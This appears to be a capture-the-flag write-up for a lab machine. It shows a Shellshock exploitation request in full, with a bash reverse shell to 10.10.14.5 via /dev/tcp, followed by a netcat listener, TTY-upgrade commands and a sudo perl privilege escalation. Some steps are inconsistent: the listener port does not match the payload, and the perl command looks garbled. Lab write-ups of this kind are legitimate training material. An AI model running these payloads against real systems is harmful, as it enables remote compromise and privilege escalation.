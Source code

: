 ```yaml
---
title: "My First Post"
date: 2022-12-15T21:45:44-08:00
draft: true
---
```


```bash
GET /cgi-bin/user.sh HTTP/1.1
Host: 10.10.10.56
User-Agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.5/4444 0>&1'
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1


```

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
```bash
-   ```
    perl -e 'exec "cat /root";'
    ```
```
#### Solving
- start off by doing an nmap scan
- after doing the nmap scan you should notice there are two ports that are shown to be opened
- the first port is 80, and the second is 2222
- port 80 is http, and is likely hosting a web page
- port 2222 is hosting ssh which is uncommon 
- after visting the web page, I see that there isnt much on it
- I will now use dirbuster ( a tool used to bruteforce directories using a wordlist )
- after using dirbuster I see that there is a directory for /cgi-bin
- CGI = (commen gateway interface)
- This file path is used to host scripts that use enviorment varibles that interact with the web browser 
- after visting the page I can see I get a error 403 which means this page exists but is forbidden
- I can use dirbuster agian to scan the directories inside ofthe directory /cgi-bin/
- in dirbuster I can specify that I want to look for a specific file type 
- in this case I am going to search for script file extensions (example: sh, py, php etc...)
- after doing this I have found a user.sh 
- When i vist the page /cgi-bin/user.sh it downloads a file for user.sh which is a short script for checking uptime or some bullshit
- I will look at the get/post request in burp suite
- I can see based off the cgi-bin that this web page may be vunerable to a shellshock attack
- shellshock is a remote code exectution vunurabity that often doesnt have comfirmation
- all that means is that you may be able to execute code on the backend server, but unless specifically using something to echo a response back you might not see anything 
- you can also see a response back though the http header response 
- in burp suite I am going to focus on the user agent parameter in the http request 
- inside of the user-agent area I am going to try and use a basic shellshock
```bash
() { :; }; echo; echo ls 
```
- now that I have been able to test that remote code execution is possible I can try to get a reverse shell through
- The reverse shell command I used is above 
- I will have to listen for the reverse shell using netcat
```bash
nc -lvnp 80 
```
- You should now be able to access the shell 
- now you have to upgrade to a more stable shell 
```bash
    # <catch reverse shell>
    python3 -c 'import pty; pty.spawn("/bin/bash")'
    # (inside the nc session) PRESS CTRL+Z to background your shell
    
    # back in your terminal enter
    stty raw -echo; fg
    # may need to hit enter a couple times
    
    # now you should be back in your reverse shell (fg, foregrounds your "backgrounded" process)
    export SHELL=/bin/bash; export TERM=screen
    
    # for this part you need to know the size of your terminal, which you can figure out by typing `stty size`, but this has to be done BEFORE you catch your reverse shell
    # once you know this, you can change "38" and "116" in the command below, and execute it in your reverse shell
    stty rows 38 columns 116; reset;
```
- now you can use subl to see what commands the current user can use with sudo permissions
- you can also check your permissions using groups to see what group your in
- you can also use "cat /etc/passwd" to see what shell your user is using 
- on this machine I can see that I am using perl so I will 
- seeing that this machine allows me to run perl with sudo permissions is a hint that perl will be my exploit
- I can use GTF-BINs to break bash 
- make sure to run the command from GTFO Bin as sudo
- This is becuase perl is one of the commands the current user is aloowed to run with sudo permissions


### upgrading shell 
- you have to use pythons pty to spawn a bash shell
- python3 -c 'import pty;pty.spawn("/bin/bash")'
- after that you will wantto background the shell (CTRL+Z)
- while in ur host machines shell you can check some information
- you can use "stty -a" to get you terminals demensions
- and "echo $TERM" to check your terminals color
- then run "stty raw -echo"